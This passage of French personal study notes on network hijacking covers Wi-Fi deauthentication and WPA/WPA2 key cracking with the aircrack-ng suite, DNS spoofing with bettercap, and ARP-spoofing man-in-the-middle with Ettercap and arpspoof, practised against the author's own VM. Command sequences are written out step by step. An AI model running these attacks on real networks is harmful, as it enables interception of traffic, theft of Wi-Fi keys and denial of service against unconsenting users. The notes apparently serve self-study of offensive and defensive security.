                             - `aireplay-ng -0 0 -a BSSID_rarget -c MAC_target wlanmon0` où -0 0 spécifie le mode de deauth
                            - `aireplay-ng --deauth 100000 -a BSSID_target wlan0mon` pour deauth tous le monde.
                - On peut donc se servir de ça pour craquer la clé WPA/WPA2 avec aircrack-ng :
                    - `airmon-ng start ath0`
                    - `airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out ath0` (switch to another console)  
                    - `aireplay-ng -0 5 -a 00:14:6C:7E:40:80 -c 00:0F:B5:AB:CB:9D ath0`  
                    - `aircrack-ng -w /path/to/dictionary out.cap` vas check comment la décryption fonctionne (y'a dans le livre aircrackng)
            - MITM  
                - IP Spoofing
                
                - Contre-mesures :  
                     Installation de IDS/IPS  
                     Utilisation des bon protocole sécurisé comme ssh, https...  
                     Utilisation de IPSec

- **DNS Hijacking :** L'attaquant modifie les paramètres DNS pour rediriger le trafic vers des serveurs DNS malveillants, pouvant conduire à des attaques de type man-in-the-middle.
    
    - Avec BetterCap :
        
        - - Dans mon exemple d'utilisation, j'aurai une vm et un hôte sur le même réseau.
			- Sur la machine attaquante (hôte dans mon cas) :
				- Lancer un server apache (ou un server malveillant, ce que tu peux quoi) :  
                    - sudo service apache2 start
                - Lancer dnsspoof dans bettercap :  
                    - bettercap
                    - set dns.spoof.domains site.quil.va.visiter
                    - set dns.spoof.all true
                    - dns.spoof on
                - Maintenant, quand la cible ira sur le site cible, il va tomber sur notre server comme par magie

    - Avec EtterCap :
        - Je crois que c'est bugué avec Ettercap en fait.

- **Clickjacking :** Une attaque où une page Web est superposée avec une autre, trompant l'utilisateur pour qu'il clique sur des éléments sans le savoir.
    
- **IP Hijacking :** Lorsqu'un attaquant prend le contrôle de l'adresse IP d'une machine, cela peut entraîner des conséquences graves, notamment la possibilité de rediriger le trafic destiné à cette adresse IP.
    
- **Browser Hijacking :** Des logiciels malveillants modifient les paramètres du navigateur Web d'un utilisateur, altérant la page d'accueil, les moteurs de recherche par défaut ou installant des extensions indésirables.
    
- **Wi-Fi Hijacking :** Un attaquant compromet une connexion Wi-Fi, permettant d'intercepter le trafic, d'effectuer des attaques au sein du réseau ou d'usurper l'identité d'un point d'accès légitime.
    
- **ARP Spoofing (ARP Hijacking) :** L'attaquant falsifie les tables ARP (Address Resolution Protocol) pour associer de fausses adresses IP à des adresses MAC, facilitant des attaques man-in-the-middle.
	- L'ARP spoofing c'est cool pour faire :  
		- Session Hijacking
		- Denial-of-Service Attack
	    - Man-in-the-Middle Attack :
		    - On peut le faire avec Ettercap :
			    - Rechercher les hôtes en ligne
			    - Nommer les deux targets cibles (routeur et la cible par exemple)
			    - Puis lancer l'attaque
			- Avec Arpspoof 
				- Dans mon exemple d'utilisation, on va compromettre la page arp entre le routeur wifi et une machine réseau (une vm dans mon cas)
				- Ce qu'il faut savoir quand on le fait sur une cible vm, c'est qu'il faut que la vm soit en mode promiscuité et que le type de réseau soit en bridge.
				- Activer l'ip forwarding sur la machine attaquante pour lui permettre de transferer des paquets entre différentes interfaces. (agir comme un pont en gros) :
					- `sudo echo 1 > /proc/sys/net/ipv4/ip_forward`